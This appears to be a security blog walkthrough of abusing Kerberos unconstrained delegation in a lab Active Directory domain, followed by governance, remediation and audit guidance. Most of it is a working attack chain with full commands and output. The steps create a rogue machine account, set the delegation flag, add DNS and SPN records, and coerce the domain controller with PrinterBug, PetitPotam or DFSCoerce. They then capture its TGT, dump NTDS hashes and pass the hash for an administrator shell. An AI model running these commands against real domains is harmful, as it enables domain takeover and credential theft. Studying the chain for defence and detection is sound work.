

Kerberos Attack via Unconstrained Delegation with krbrelayx
Legacy Kerberos Exploitation
With SpecterOps // Creator and Maintainer of BloodHound the attack-path management.
Unconstrained Delegation is a legacy Kerberos trust mechanism that Microsoft introduced with Windows in early 2000. Two decades later, it remains enabled in production environments because administrators don't understand the security implications.
A typical Kerberos authentication attack scenario originates from an unconstrained delegation, where attackers identify misconfigurations and steal authentication information, such as password hashes, Kerberos tickets, and application access tokens.
Attackers can escalate higher privileges and move laterally within an organization's IT infrastructure to target high-value assets.
When a user authenticates to a computer with unconstrained delegation, that user's Kerberos TGT gets saved to that computer's memory so the computer can impersonate the authenticated user when required for accessing resources on that user's behalf.
This privilege is usually given to computer objects within the domain.
However, during a recent Praetorian internal network security assessment, Praetorian engineers encountered a user object that was kerberoastable and configured with these privileges.
PS that BloodHound won't (sometimes, collectors matter) show you this path. Antivirus won't stop it, it's pure Kerberos protocol abuse and attack.
When a computer is trusted for unconstrained delegation, it can impersonate any user who authenticates to it. Force the Domain Controller to authenticate to your controlled machine, steal its TGT, and you own the domain.
This is what's called KUD, FKA Kerberos Unconstrained Delegation abuse, and Unconstrained delegation abuse with krbrelayx project.
Unconstrained Delegation Overview
Delegation allows a service to impersonate users when accessing other services on their behalf. Think of a web application accessing a database using the authenticated user's credentials rather than a service account.
How Unconstrained Delegation Works
When enabled on a computer account:
- User authenticates to the service.
- User's TGT is sent along with the service ticket.
- Service stores the TGT in memory.
- Service can use that TGT to impersonate the user anywhere.
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (of the compromised account) and add a DNS entry for that name.
The problem?
The service receives forwardable TGTs for anyone who authenticates, including Domain Admins and the Domain Controller computer account itself.
Why This Still Exists
Microsoft deprecated unconstrained delegation with Windows Server 2003, introducing constrained delegation and later Resource-Based Constrained Delegation FKA RBCD. Despite this:
- DC have unconstrained delegation by default.
- Legacy applications.
- Administrators enable it without understanding the risk.
- Group Policy doesn't warn when configuring it.
- Audit tools rarely (couple-times) flag it as critical.
The Attack Path: SeEnableDelegationPrivilege
This attack demonstrates privilege escalation through delegation configuration rights. The key is SeEnableDelegationPrivilege, a user right that allows configuring delegation settings on computer accounts.
Initial Enumeration
Starting with domain credentials:
┌──(kali㉿kali)-[~]
└─$ nxc ldap 192.168.2.68 -u N.Thompson -p KALEB_2341
LDAP 192.168.2.68 389 DC1 [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vuln)
LDAP 192.168.2.68 389 DC1 [+] delegate.vuln\N.Thompson:KALEB_2341Confirm WinRM access:
┌──(kali㉿kali)-[~]
└─$ nxc winrm 192.168.2.68 -u N.Thompson -p KALEB_2341
WINRM 192.168.2.68 5985 DC1 [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vuln)
WINRM 192.168.2.68 5985 DC1 [+] delegate.vuln\N.Thompson:KALEB_2341 (Pwn3d!)Identifying the Privilege
Connect via WinRM and enumerate user rights:
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami
delegate\n.thompson
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami /all
USER INFORMATION
----------------
User Name SID
=================== ==============================================
delegate\n.thompson S-1-5-21-1484473093-3449528695-2030935120-1108
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
=========================================== ================ ============================================== ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
DELEGATE\delegation admins Group S-1-5-21-1484473093-3449528695-2030935120-1121 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label S-1-16-8448
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================================================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeEnableDelegationPrivilege Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
USER CLAIMS INFORMATION
-----------------------
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.The critical privilege: SeEnableDelegationPrivilege. This allows us to configure both unconstrained and constrained delegation for machine accounts.
Why BloodHound Misses This
BloodHound tracks ACL-based relationships: who has GenericAll, WriteDacl, etc.
It doesn't enumerate user rights assignments like SeEnableDelegationPrivilege because these are configured via Group Policy, not object ACLs.
The attack path exists, but it's invisible to standard enumeration tools.
Exploitation Strategy
Our goal: force the Domain Controller to authenticate to a machine we control with unconstrained delegation enabled. When it does, we capture its TGT and use it for DCSync.
Attack Steps
- Create a computer account.
- Configure unconstrained delegation on that computer.
- Add DNS record pointing to our attack machine.
- Set service principal names
SPNsfor Kerberos. - Run krbrelayx to listen for incoming tickets.
- Force DC authentication using PrinterBug or similar.
- Capture DC's TGT from krbrelayx.
- Use DC Ticket for DCSync.
Step 1: Machine Account Quota Check
Verify we can add computer accounts:
┌──(kali㉿kali)-[~]
└─$ nxc ldap 192.168.2.68 -u N.Thompson -p KALEB_2341 -M maq
LDAP 192.168.2.68 389 DC1 [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vuln)
LDAP 192.168.2.68 389 DC1 [+] delegate.vuln\N.Thompson:KALEB_2341
MAQ 192.168.2.68 389 DC1 [*] Getting the MachineAccountQuota
MAQ 192.168.2.68 389 DC1 MachineAccountQuota: 10Default MachineAccountQuota is 10, allowing any authenticated user to add up to 10 computer accounts. This is rarely changed in production environments.
Step 2: Add Computer Account
Create a machine account we control:
┌──(kali㉿kali)-[~]
└─$ addcomputer.py -dc-ip 192.168.2.68 -computer-name evil$ -computer-pass Passw0rd1 delegate.vuln/N.Thompson:KALEB_2341
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully added machine account evil$ with password Passw0rd1.Output:
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully added machine account evil$ with password Passw0rd1.Credentials to remember:
Username: evil$
Password: Passw0rd1Step 3: Enable Unconstrained Delegation
Using bloodyAD to set the delegation flag:
┌──(kali㉿kali)-[~]
└─$ bloodyAD --host 192.168.2.68 -u n.thompson -p KALEB_2341 -d delegate.vuln add uac -f TRUSTED_FOR_DELEGATION 'evil$'
[-] ['TRUSTED_FOR_DELEGATION'] property flags added to evil$'s userAccountControlOutput confirms modification:
[-] ['TRUSTED_FOR_DELEGATION'] property flags added to evil$'s userAccountControlThe TRUSTED_FOR_DELEGATION flag in userAccountControl attribute marks the computer as trusted for unconstrained delegation. Any TGT sent to this computer will be cached.
Step 4: DNS Record Configuration
Add DNS record pointing to our attack machine:
┌──(kali㉿kali)-[~]
└─$ python3 dnstool.py -u 'delegate.VULN\evil$' -p Passw0rd1 --action add --record evil.delegate.VULN -d 10.10.14.8 -t A -dns-ip 192.168.2.68 dc1.delegate.vuln
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfullyOutput:
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfullyNow evil.delegate.vuln resolves to our Kali machine at 10.10.14.8. When services try to authenticate to this hostname, they'll connect to us.
Step 5: Service Principal Names
SPNs identify services in Kerberos. Add CIFS service for SMB-based authentication:
python3 addspn.py -u 'delegate.vuln\N.Thompson' -p KALEB_2341 -s 'cifs/evil.delegate.vuln' -t evil$ -dc-ip 192.168.2.68 dc1.delegate.vuln --additionalFirst SPN addition:
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfullyAdd again to ensure proper registration:
python3 addspn.py -u 'delegate.vuln\N.Thompson' -p KALEB_2341 -s 'cifs/evil.delegate.vuln' -t evil$ -dc-ip 192.168.2.68 dc1.delegate.vuln[+] SPN Modified successfullyInternal Verification
Confirm SPN configuration from within the domain with PowerShell Command:
Get-ADComputer -Identity "[COMPUTER$]" -Properties ServicePrincipalNames | Select-Object -ExpandProperty ServicePrincipalNames*Evil-WinRM* PS C:\Users\N.Thompson> Get-ADComputer -Identity "evil$" -Properties ServicePrincipalNames | Select-Object -ExpandProperty ServicePrincipalNames
cifs/evil.delegate.vulnSPN registered correctly. The computer account now looks like a legitimate file server from Kerberos perspective.
Step 6: NTLM Hash Generation
krbrelayx requires the NTLM hash of the computer account password. Convert cleartext password to NTLM hash using MD4:
import hashlib
password = "Passw0rd1"
ntlm_hash = hashlib.new('md4', password.encode('utf-16le')).hexdigest()
print(f"NTLM Hash: {ntlm_hash}")Which you can find here for my Gits, then execute the script:
┌──(kali㉿kali)-[~]
└─$ python3 hash_convert.py
NTLM Hash: 5858d47a41e40b40f294b3100bea611fStore this hash: 5858d47a41e40b40f294b3100bea611f
Verify Delegation Flag
Double-check the delegation setting is persistent:
bloodyAD -d delegate.vuln -u n.thompson -p KALEB_2341 --host dc1.delegate.vuln add uac 'evil$' -f TRUSTED_FOR_DELEGATION[-] ['TRUSTED_FOR_DELEGATION'] property flags added to evil$'s userAccountControlStep 7: krbrelayx Listener
Launch krbrelayx with the NTLM hash to intercept incoming Kerberos tickets:
┌──(kali㉿kali)-[~]
└─$ python3 krbrelayx.py -hashes :5858d47a41e40b40f294b3100bea611f
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 192.168.2.68
[*] Got ticket for DC1$@DELEGATE.VULN [krbtgt@DELEGATE.VULN]
[*] Saving ticket in DC1$@DELEGATE.VULN_krbtgt@DELEGATE.VULN.ccache
[*] SMBD: Received connection from 192.168.2.68
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 192.168.2.68
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'krbrelayx initializes multiple protocol handlers:
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
[*] Servers started, waiting for connectionskrbrelayx is now listening, any authentication to our controlled machine will result in TGT capture.
Step 8: Coercion Attack
Force the Domain Controller to authenticate to our machine. First, identify available coercion methods:
nxc smb DC1.delegate.vuln -u 'evil$' -p Passw0rd1 -M coerce_plusResults show multiple vulnerable coercion methods:
┌──(kali㉿kali)-[~]
└─$ nxc smb DC1.delegate.vuln -u 'evil$' -p Passw0rd1 -M coerce_plus
SMB 192.168.2.68 445 DC1 [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vuln) (signing:True) (SMBv1:False)
SMB 192.168.2.68 445 DC1 [+] delegate.vuln\evil$:Passw0rd1
COERCE_PLUS 192.168.2.68 445 DC1 VULNERABLE, DFSCoerce
COERCE_PLUS 192.168.2.68 445 DC1 VULNERABLE, PetitPotam
COERCE_PLUS 192.168.2.68 445 DC1 VULNERABLE, PrinterBug
COERCE_PLUS 192.168.2.68 445 DC1 VULNERABLE, PrinterBug
COERCE_PLUS 192.168.2.68 445 DC1 VULNERABLE, MSEvenPrinterBug is the most reliable.
Execute the coercion:
nxc smb DC1.delegate.vuln -u 'evil$' -p Passw0rd1 -M coerce_plus -o LISTENER=evil.delegate.vuln METHOD=PrinterBugAttack succeeds:
┌──(kali㉿kali)-[~]
└─$ nxc smb DC1.delegate.vuln -u 'evil$' -p Passw0rd1 -M coerce_plus -o LISTENER=evil.delegate.vuln METHOD=PrinterBug
SMB 192.168.2.68 445 DC1 [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vuln) (signing:True) (SMBv1:False)
SMB 192.168.2.68 445 DC1 [+] delegate.vuln\evil$:Passw0rd1
COERCE_PLUS 192.168.2.68 445 DC1 VULNERABLE, PrinterBug
COERCE_PLUS 192.168.2.68 445 DC1 Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationExPrinterBug forces the DC computer account to authenticate to evil.delegate.vuln, which resolves to our krbrelayx listener.
Step 9: Ticket Capture
Back to our krbrelayx listener, tickets are incoming:
[*] SMBD: Received connection from 192.168.2.68
[*] Got ticket for DC1$@DELEGATE.VULN [krbtgt@DELEGATE.VULN]
[*] Saving ticket in DC1$@DELEGATE.VULN_krbtgt@DELEGATE.VULN.ccache
[*] SMBD: Received connection from 192.168.2.68
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 192.168.2.68
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'Critical line here, we got ticket for the DC itself.

We've captured the Domain Controller's TGT. Verify the file:
┌──(kali㉿kali)-[~]
└─$ ls
bhce DC1$@DELEGATE.VULN_krbtgt@DELEGATE.VULN.ccacheStep 10: DCSync with Captured TGT
Export the captured ticket for Kerberos authentication:
export KRB5CCNAME='DC1$@DELEGATE.VULN_krbtgt@DELEGATE.VULN.ccache'Verify ticket validity:
┌──(kali㉿kali)-[~]
└─$ klist
Ticket cache: FILE:DC1$@DELEGATE.VULN_krbtgt@DELEGATE.VULN.ccache
Default principal: DC1$@DELEGATE.VULN
Valid starting Expires Service principal
01/18/2026 13:22:10 01/18/2026 22:30:49 krbtgt/DELEGATE.VULN@DELEGATE.VULN
renew until 01/25/2026 12:30:49Ticket is valid for nearly 10 hours with a 7-day renewal window. Execute DCSync:
nxc smb DC1.delegate.vuln --use-kcache --ntdsNetExec prompts about potential DC crash on Server 2019, but 2022 is stable:
┌──(kali㉿kali)-[~]
└─$ nxc smb DC1.delegate.vuln --use-kcache --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB DC1.delegate.vuln 445 DC1 [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vuln) (signing:True) (SMBv1:False)
SMB DC1.delegate.vuln 445 DC1 [+] DELEGATE.VULN\DC1$ from ccache
SMB DC1.delegate.vuln 445 DC1 [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB DC1.delegate.vuln 445 DC1 Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::
SMB DC1.delegate.vuln 445 DC1 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB DC1.delegate.vuln 445 DC1 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:54999c1daa89d35fbd2e36d01c4a2cf2:::
SMB DC1.delegate.vuln 445 DC1 A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:8e5a0462f96bc85faf20378e243bc4a3:::
SMB DC1.delegate.vuln 445 DC1 b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:deba71222554122c3634496a0af085a6:::
SMB DC1.delegate.vuln 445 DC1 R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:17d5f7ab7fc61d80d1b9d156f815add1:::
SMB DC1.delegate.vuln 445 DC1 J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:4ff255c7ff10d86b5b34b47adc62114f:::
SMB DC1.delegate.vuln 445 DC1 N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:4b514595c7ad3e2f7bb70e7e61ec1afe:::
SMB DC1.delegate.vuln 445 DC1 DC1$:1000:aad3b435b51404eeaad3b435b51404ee:f7caf5a3e44bac110b9551edd1ddfa3c:::
SMB DC1.delegate.vuln 445 DC1 evil$:4601:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
SMB DC1.delegate.vuln 445 DC1 [+] Dumped 10 NTDS hashes to /root/.nxc/logs/ntds/DC1_DC1.delegate.vuln_2026-01-18_132641.ntds of which 8 were added to the database
SMB DC1.delegate.vuln 445 DC1 [*] To extract only enabled accounts from the output file, run the following command:
SMB DC1.delegate.vuln 445 DC1 [*] cat /root/.nxc/logs/ntds/DC1_DC1.delegate.vuln_2026-01-18_132641.ntds | grep -iv disabled | cut -d ':' -f1
SMB DC1.delegate.vuln 445 DC1 [*] grep -iv disabled /root/.nxc/logs/ntds/DC1_DC1.delegate.vuln_2026-01-18_132641.ntds | cut -d ':' -f1 Full domain compromise achieved.
Administrator hash extracted: c32198ceab4cc695e65045562aa3ee93
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i delegate.vuln -u administrator -H c32198ceab4cc695e65045562aa3ee93
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
delegate\administratorDone! as an AdverXaries this it profit!!
GRC and Policy Implications
This attack demonstrates fundamental governance failures in Active Directory management.
Configuration Management
Organizations lack proper configuration management for delegation settings:
- No inventory of systems with unconstrained delegation.
- No approval workflow configuration.
- No periodic auditing of delegation settings.
- No documentation of why delegation was enabled.
Risk management frameworks like NIST 800-53 require configuration management (CM-2) and configuration change control (CM-3). Delegation settings should be treated as critical security parameters requiring formal change management.
Privilege Management Policy
SeEnableDelegationPrivilege is equivalent to Domain Admin in this scenario, yet it's rarely included in privileged access management programs:
- Not tracked in PAM solution.s
- Not subject to just-in-time access controls.
- No approval workflow for assignment.
- No monitoring of usage.
CIS Controls v8 requires inventory and control of privileged accounts (Control 5.4). User rights assignments like SeEnableDelegationPrivilege must be included in this inventory.
MachineAccountQuota Policy
The default MachineAccountQuota of 10 allows any authenticated user to add computers. This violates least privilege principles:
- No business justification for users adding computers.
- No approval process for machine account creation.
- No monitoring of unexpected account additions.
- Created accounts persist indefinitely.
Best practice: Set MachineAccountQuota to 0 and delegate computer account creation to specific IT groups through controlled processes.
Change Detection and Monitoring
The attack chain involved multiple detectable changes:
- Computer account creation.
UACattribute modification.- DNS record addition.
- SPN registration.
- Authentication coercion.
- DCSync replication request.
Organizations with proper SIEM integration and AD change monitoring would detect several of these steps. However, most environments lack:
- Real-time AD attribute change monitoring.
- DNS modification alerting.
- SPN registration monitoring.
- Correlation between related suspicious activities.
Compliance Considerations
This attack violates multiple compliance requirements:
PCI DSS 4.0
- Requirement 7.2.5: User access rights must follow least privilege
- Requirement 8.2.2: Authentication mechanisms must be secured
ISO 27001:2022
- A.5.15: Access control regarding delegation settings not properly controlled
- A.5.18: Access rights for excessive privileges granted
NIST Cybersecurity Framework
- PR.AC-4: Access permissions managed for delegation not properly controlled
- DE.CM-1: Network monitored as coercion attacks not detected
Remediation and Hardening
Organizations must address unconstrained delegation through policy and technical controls.
Immediate Actions
Identify systems with unconstrained delegation:
Get-ADComputer -Filter {TrustedForDelegation -eq $True} -Properties TrustedForDelegation,ServicePrincipalNames | Select-Object Name,TrustedForDelegation,ServicePrincipalNamesFor each identified system, evaluate:
- Is unconstrained delegation required for application functionality?
- Can it be replaced with constrained or RBCD as resource-based constrained delegation?
- If required, what compensating controls exist?
Policy Controls
Implement formal approval processes:
- Document business justification for delegation
- Require security review and approval
- Set expiration dates for delegation configurations
- Conduct quarterly reviews of all delegation settings
Technical Controls
Reduce attack surface through Group Policy:
Set MachineAccountQuota to zero:
Set-ADDomain -Identity delegate.vuln -Replace @{"ms-DS-MachineAccountQuota"="0"}Protected Users Security Group
Add privileged accounts to Protected Users group. This prevents:
- NTLM authentication.
DES or RC4encryption in Kerberos.- Delegation (constrained or unconstrained).
- TGT renewal beyond initial 4-hour lifetime.
Even if a protected user authenticates to a machine with unconstrained delegation, their TGT won't be cached.
Alternative Attack Vectors
This attack used PrinterBug for coercion, but multiple methods exist.
PetitPotam
Forces authentication via MS-EFSRPC:
python3 PetitPotam.py -u evil$ -p Passw0rd1 evil.delegate.vuln 192.168.2.68DFSCoerce
Abuses Distributed File System RPC calls:
python3 dfscoerce.py -u evil$ -p Passw0rd1 evil.delegate.vuln 192.168.2.68Coercer Tool
Automated testing of multiple coercion methods:
python3 Coercer.py -u evil$ -p Passw0rd1 -d delegate.vuln -l evil.delegate.vuln -t 192.168.2.68Constrained Delegation as Alternative
If delegation is legitimately required, constrained delegation limits the scope of impersonation.
Configuring Constrained Delegation
Set-ADComputer "WebServer" -Add @{'msDS-AllowedToDelegateTo'=@('MSSQLSvc/DBServer.delegate.vuln:1433','MSSQLSvc/DBServer:1433')}This allows WebServer to impersonate users only to the SQL service, not domain-wide.
Resource-Based Constrained Delegation
Even better, use RBCD where the target resource controls who can delegate:
Set-ADComputer "DBServer" -PrincipalsAllowedToDelegateToAccount "WebServer$"This inverts the trust model, the resource decides who can impersonate to it, rather than the front-end service having broad delegation rights.
Governance Framework Implementation
Organizations should implement formal governance for Kerberos delegation.
Delegation Approval Process
- Application owner submits delegation request with business justification.
- Security team evaluates necessity and alternatives.
- Change Advisory Board approves with time limit.
- IT implements with compensating controls.
- SIEM rules configured.
- Quarterly validation that delegation still required.
Delegation Registry
Maintain centralized tracking:
- System name and purpose.
- Delegation type (unconstrained, constrained, RBCD).
- Approval date and approver.
- Expiration or review date.
- Compensating controls.
- Monitoring requirements.
Risk Assessment Template
Evaluate delegation requests against:
- What can be compromised if this system is owned?
- What user accounts will authenticate to this system?
- Can constrained delegation or RBCD meet the requirement?
- Network segmentation, enhanced monitoring, etc.
- What breaks if delegation is removed?
Audit Queries for Compliance
Regular auditing identifies risky configurations.
Find Unconstrained Delegation
Get-ADComputer -Filter * -Properties TrustedForDelegation | Where-Object {$_.TrustedForDelegation -eq $True -and $_.Name -ne 'DC1'} | Select-Object Name,DistinguishedName,TrustedForDelegationExclude Domain Controllers as they require unconstrained delegation by design.
Find SeEnableDelegationPrivilege Assignment
secedit /export /cfg c:\secpol.cfgGet-Content c:\secpol.cfg | Select-String "SeEnableDelegationPrivilege"This right should only be assigned to specific administrative groups, never to standard user groups.
Monitor Computer Account Creation
Event ID 4741 logs computer account creation. Alert on creation by non-IT accounts:
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4741} -MaxEvents 100 | Where-Object {$_.Properties[4].Value -notmatch 'IT-Admins|Domain Admins'} | Format-Table TimeCreated,@{L='Creator';E={$_.Properties[4].Value}},@{L='Computer';E={$_.Properties[0].Value}}Lessons for Security Programs
This attack reveals gaps in typical security programs.
Tools Don't Replace Understanding
BloodHound is invaluable but doesn't show every attack path. Security teams must understand Active Directory mechanics beyond tool output.
Default Configurations Are Security Decisions
Leaving MachineAccountQuota at 10 is a security decision, not a neutral default. Every default configuration should be evaluated and justified.
User Rights Are Privileges
SeEnableDelegationPrivilege is as dangerous as SeDebugPrivilege or SeBackupPrivilege, yet it's rarely included in privilege management programs.
Legacy Features Persist
Unconstrained delegation was deprecated in 2003. Twenty years later, it's still exploitable in production environments. Deprecation doesn't mean removal, legacy features require active hardening.
Conclusion
Kerberos Unconstrained Delegation abuse demonstrates that effective Active Directory attacks don't require vulnerabilities, they exploit design decisions and misconfigurations that persist across decades.
From initial access to domain compromise:
- Identify
SeEnableDelegationPrivilege. - Create controlled computer account.
- Configure unconstrained delegation.
- Setup DNS and SPN records.
- Run krbrelayx listener.
- Coerce DC authentication.
- Capture DC TGT.
- Execute DCSync.
Eight steps, all using legitimate Kerberos functionality. No exploitation, no vulnerability, just trust model abuse.
Defense requires governance: formal approval processes, configuration inventories, regular auditing, and treating delegation settings as critical security parameters.
Technical controls alone are insufficient, organizations need policy frameworks that prevent these configurations from being deployed in the first place.
Tools and Resources
Shout Outs
- @_dirkjan as krbrelayx developer
- @SpecterOps
I think that's most of it for us Adversaries and some sparks of GRC.
Thanks for reading!!